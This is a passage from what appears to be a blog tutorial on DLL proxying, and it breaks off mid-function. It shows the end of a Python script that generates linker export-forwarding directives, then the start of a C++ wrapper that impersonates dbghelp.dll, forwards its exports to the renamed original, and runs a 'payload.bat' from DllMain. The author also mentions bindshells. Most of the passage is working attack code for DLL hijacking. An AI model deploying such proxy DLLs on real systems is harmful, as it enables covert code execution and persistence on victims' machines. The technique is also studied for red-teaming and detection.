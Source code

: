 ```python
            ordinal = cols[4].split(' ')[0]
            dll_orig = "%s_orig" % cols[5][:cols[5].rfind('.')]
            print("#pragma comment(linker,\"/export:%s=%s.%s,@%s\")" % (function_name, dll_orig, function_name, ordinal))

if __name__ == '__main__':
    main()
```

The parser should yield something like this.

![](/assets/posts/2019-04-18-dll-proxying/dp06_parser.png)

### 4) Write the DLL Wrapper

Finally, you can copy the _export_ directives into the following code snippet and add your own code to `DllMain()`. This is the code I use to execute a BATCH script. The script must be named `payload.bat` in this case and must be located in the same directory as the DLL's. 

:warning: Be very careful with the code you write inside `DllMain()`. Infinite loops for example (which may occur in case of a bindshell if a new thread isn't created), will prevent the DLL from being loaded, thus causing a Denial of Service. 

```cpp
#pragma once
// BEGIN: export directives for the linker
#pragma comment(linker,"/export:SymFreeDiaString=dbghelp_orig.SymFreeDiaString,@1111")
#pragma comment(linker,"/export:SymGetDiaSession=dbghelp_orig.SymGetDiaSession,@1112")
#pragma comment(linker,"/export:SymGetLineFromAddrEx=dbghelp_orig.SymGetLineFromAddrEx,@1113")
// ...
#pragma comment(linker,"/export:symsrv=dbghelp_orig.symsrv,@1353")
#pragma comment(linker,"/export:vc7fpo=dbghelp_orig.vc7fpo,@1354")
// END: export directives for the linker

#include <windows.h>
#include <string>
#include <atlstr.h>  

CStringW ThisDllDirPath()
{
    CStringW thisPath = L"";
    WCHAR path[MAX_PATH];
    HMODULE hm;
    if (GetModuleHandleExW(GET_MODULE_HANDLE_EX_FLAG_FROM_ADDRESS | GET_MODULE_HANDLE_EX_FLAG_UNCHANGED_REFCOUNT, (LPWSTR)&ThisDllDirPath, &hm))
```
